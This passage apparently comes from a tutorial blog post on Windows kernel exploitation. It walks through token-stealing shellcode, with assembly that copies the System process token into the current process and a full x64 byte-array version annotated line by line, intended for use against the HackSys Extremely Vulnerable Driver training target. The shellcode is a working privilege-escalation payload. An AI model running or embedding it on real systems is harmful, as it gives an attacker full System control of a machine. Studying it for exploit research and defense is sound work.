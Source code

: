 ```asm
;; rax has the pointer to the current KPROCESS
;; rbx has the pointer to System KPROCESS

mov rcx, [rbx + 0x348] ;; +0x348  Token
and cl, 0xf0 ;; we must clear the lowest nibble
mov [rax + 0x348], rcx
```


# The final shellcode

We add a few extra instructions to correctly save and restore the context, and
make sure we exit cleanly:

<script src="https://gist.github.com/hugsy/763ec9e579796c35411a5929ae2aca27.js"></script>

We can now simply use any assembler (NASM, YASM) - but I have a personal preference for [Keystone-Engine](http://keystone-engine.org) - to generate a bytecode version of our shellcode.

```c
#define LEN 80

const char sc[LEN] = ""
  "\x50"                                             // push rax
  "\x53"                                             // push rbx
  "\x51"                                             // push rcx
  "\x48\x65\xa1\x88\x01\x00\x00\x00\x00\x00\x00"     // mov rax, gs:0x188
  "\x48\x8b\x80\xb8\x00\x00\x00"                     // mov rax, [rax+0xb8]
  "\x48\x89\xc3"                                     // mov rbx, rax
  "\x48\x8b\x9b\xe8\x02\x00\x00"                     // mov rbx, [rbx+0x2e8]
  "\x48\x81\xeb\xe8\x02\x00\x00"                     // sub rbx, 0x2e8
  "\x48\x8b\x8b\xe0\x02\x00\x00"                     // mov rcx, [rbx+0x2e0]
  "\x48\x83\xf9\x04"                                 // cmp rcx, 4
  "\x75\x15"                                         // jnz 0x17
  "\x48\x8b\x8b\x48\x03\x00\x00"                     // mov rcx, [rbx + 0x348]
  "\x48\x89\x88\x48\x03\x00\x00"                     // mov [rax + 0x348], rcx
  "\x59"                                             // pop rcx
  "\x5b"                                             // pop rbx
  "\x58"                                             // pop rax
  "\x58\x58\x58\x58\x58"                             // pop rax; pop rax; pop rax; pop rax; pop rax; (required for proper stack return)
  "\x48\x31\xc0"                                     // xor rax, rax  (i.e. NT_SUCCESS)
  "\xc3"                                             // ret
  "";
```


Once copied into an executable location, this shellcode will grant the current
process with all `System` privileges.

The next post will actually use this newly created shellcode in a concrete vulnerability exploitation (from the [Extremely Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) by HackSys Team.
